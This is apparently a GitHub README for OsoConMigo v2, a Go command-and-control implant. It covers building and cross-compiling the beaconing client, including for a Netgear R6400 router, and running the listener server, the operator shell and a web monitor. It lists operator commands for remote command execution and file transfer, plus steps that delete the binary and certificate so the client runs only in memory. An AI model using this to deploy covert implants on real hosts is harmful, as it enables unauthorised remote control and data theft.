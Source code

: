#OsoConMigo Version 2.0

[![Generic badge](https://img.shields.io/badge/Go-v1.14-blue.svg)](https://shields.io/) [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/Naereen/StrapDown.js/blob/master/LICENSE)

OsoConMigo is in it's second version.  At the moment it is a simple beaconing implant written in Go.  Components of OsoConMigo are a client, Listening server and interactive shell.  The client communicates with the server over HTTP/2 at a specified comms interval.  A client can be tasked using the interactive shell to pull and push files, and execute commands on the target host.

## Getting Started

#### Install dependencies (Debian and Ubuntu)
``` Apt update && apt -y upgrade && apt -y install build-essential postgresql screen vim git upx
```

#### Install GO
```
wget https://dl.google.com/go/go1.14.1.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.14.1.linuxamd64.gar.gz
rm -f go1.14.1.linux-amd64.tar.gz

echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
```

#### Get OsoConMigo
```
git clone https://github.com/mojo0243/OsoConMigoV2.git
```

#### Install Go Dependences
```
cd OsoConMigoV2
make deps
```

#### Setup Postres
```
# Start the postgres service
service postgresql start

# Change to the postgres user
su - postgres

# Create a new user
createuser --interactive --pwprompt
# Enter name of role to add: test
# Enter password for new role: pass
# Enter it again: pass
# Shall the new role be a super user? (y/n) y

# Create the database
psql
CREATE DATABASE oso;
\q

# Exit from the postgres user
exit
```

#### Building with the Makefile

Edit the Make file to include the IP for your server and any client specific information.  This can be overridden from the command line as an alternative.  Additional archectures can be added.  To view a list of architectures suppored natively by go, use the go tool command.

```
go tool dist list
```

Generic build instructions with make
```
cd OsoConMigoV2

# Build a server, client and shell
make all

# Build the server
make build_server

# Build the shell
make build_shell

# Build a custom client (In this case for the Netgear R6400 which was the origination of this project)
make build_r6400

# Make a custom client with and over ride Node name
make build_mips NODE=M0001

# Make a custom client and over ride all options
make build_arm NODE=A0001 URL=https://localhost:8443/tienda/peluche SECRET=superChief COMMS=30 FLEX=10
```

#### Building a Certificate

When buildig the certificate ensure that the common name is 'localhost'.  Otherwise you may receive a TLS Handshake error on the server.  Currently the Netgear R6400 gives this same issue due to not using SSL and having no rootCA Pool.  I am currently working this issue.

```
cd server; mkdir cert
openssl genrsa -out cert/server.key 4096
openssl req -new -x509 -sha256 -days 365 -key cert/server.key -out cert/server.crt
```

#### Start the Server
```
cd server
./server -c config.yml

# Starting the Server in a screen session
screen -S Oso_Server
./server -c config.yml
 
# Background the screen session
 ctrl+a d

# To interact with the screen session
 screen -ls (to ensure it is still running)
 screen -x Oso_Server
```

Start the Shell
```
cd shell
./shell -c config.yml

# Starting the Server in a screen session
screen -S Oso_Shell
./shell -c config.yml
 
# Background the screen session 
 ctrl+a d

# To interact with the screen session 
 screen -ls (to ensure it is still running)
 screen -x Oso_Shell
```

#### Execute client on target host
```
# Start client
./client -c server.crt &

# To run in memory after starting
shred -fuz server.crt; rm -f client
```

#### Validate Postgres database
```
# Login to shell
sudo -u postgres psql

# Connect to oso database
\c oso

# View tables
\dt

# Drop old tables
DROP TABLE agents,results,tasks,tokens;
```

#### Basic usage
````
clients					: List available clients
client <node>				: Tag into client for interaction.  client without a name brings the user back to home and lists clients.
task <command>				: Task the client to execute a command. Must start with shell. Ex: /bin/bash, /bin/sh, cmd.exe
staged					: Show jobs in the queue not yet deployed for current client
deploy					: Move staged jobs into deployed queue.  Client can access jobs only once deployed.
revoke 					: Remove deployed jobs
revoke restage				: Removes deployed jobs and places them in the staged que to allow for additional commands to be added
flush 					: Flush commands in the staged queue
set comms <int>				: Task the client to modify it's comms interval in seconds.
set flex <int>				: task the client to offset the comms by (+/-) x seconds.
kill 					: Kill the client process
job <job id>				: Show the output from a job
jobs					: List complete and deployed jobs
pull <remote file>			: Pulle a file from the target machine.
push <local file> <remote file>		: Push a local file to the target machine.
forget <node>				: Remove a client from the database
dump client 				: Not yet implemented
dump job				: Not yet implemented
```

#### Web Interface monitor

This python script provides a simple web interface that allows the user to have a quick refernce for available nodes, first seen and last seen, along with status of jobs deployed.  Because this is written in python flask it is only recommended to run on the local host ip and use ssh for remote port forward if placing on a different computer.  This application requires a login for access.  Currently the /create-user page is not set to force a login for view.  This can be fixed by uncommenting the for lines on the index/routes.py file under the /create-user route.  If these lines are uncommented the only username which can access this page afterwards is admin.

#### Create user database

```
# Login to shell
sudo -u postgres psql

# Connect to oso database
\c oso

CREATE TABLE users(id serial primary key, username string(20) unique not nul, password string(60) not null);
```

#### Setup the Web interface monitor

```
cd monitor
apt install python3
pip3 install -r requirements.txt
```

#### Start the Web interface monitor

The ocm_v2.py script takes a -i for IP address and -p for port

```
python3 ocm_v2.py -i 127.0.0.1 -p 8000
```

#### Create a new user

Open a browser and browse to http://127.0.0.1:8000/create-user

#### Log in and view Web interface monitor

Open a browser and browse to http://127.0.0.1:8000/login

#### TO DO

1. Add Fix r6400 TLS handshake issue

2. Add database column that indicates bool value for files.

3. Write files pulled to out folder instead of database.  based on bool value. Preserve pull path

4. Add shell feature to dump client results and commands to disk

5. Add shell command to wipe database

6. Add a scheduler option to run recuring commands at a given interval

7. Add a default option for commands for first check in from clients
